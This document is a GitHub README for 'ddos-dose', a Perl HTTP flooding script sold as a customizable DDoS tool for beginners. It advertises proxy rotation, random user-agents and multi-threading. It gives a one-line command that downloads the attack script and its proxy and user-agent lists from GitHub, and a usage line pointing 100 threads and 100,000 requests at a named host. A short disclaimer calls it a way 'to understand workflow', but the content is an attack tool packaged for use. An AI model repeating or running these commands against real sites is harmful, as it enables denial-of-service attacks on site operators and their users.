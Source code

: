 
# Script for HTTP DDoS Attack (Custoom Modification) ↓

## Features

- Send request with Random User-agent, Read user-agent from Local file, With Proxy
- multi-threading
- Basic Perl script
- Url Path, Threads, Number of Request,GET-POST, rate-limit, timeout (Customization)
- customizable Headers
- Easy to Customize for beginners
- Define Number of request to be send to target
- Can modify Delay btween next request
- Can be used with or without Proxy
- Language: Perl
- Just to understand workflow!





## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE-CUSTOM%20%7C%20ID%3A2A/http.pl && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID%3A1A/user.txt && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE-CUSTOM%20%7C%20ID%3A2A/proxy.txt && yes | perl -MCPAN -e'install "LWP::Simple"' && yes | apt-get install libwww-perl && chmod 777 *

```
## Usage

```
perl http.pl --url http://dultr.in/ --urlpath / --threads 100 --num_requests 100000 --method GET --rate_limit 10 --timeout 10 --proxy_list proxies.txt --user_agents user.txt 
perl http.pl --url <url> --urlpath <path> --threads <no_of_threads> --num_requests <no_of_req> --method <req_method> --rate_limit <rate_limit time> --timeout <proxy connection timeout time> --proxy_list <path of proxy file> --user_agents <path of user-agent file> 
```
```
---> Script Read User-agent from a file "user.txt" or proxy from "proxy.txt" in same dir, if not 
present it's automatically run with a specif user-agent or using instance except proxy.
```
```
-> (Line80) -> Add/Remove Headers.
-> Other parameters are being passed with command, you can customize that. 
```

## Check this Script Also for better Understanding ->

Click Below ↓

[Click Here for that Script](https://github.com/cyberceros/ddos-dose/tree/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID:1A)


## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in

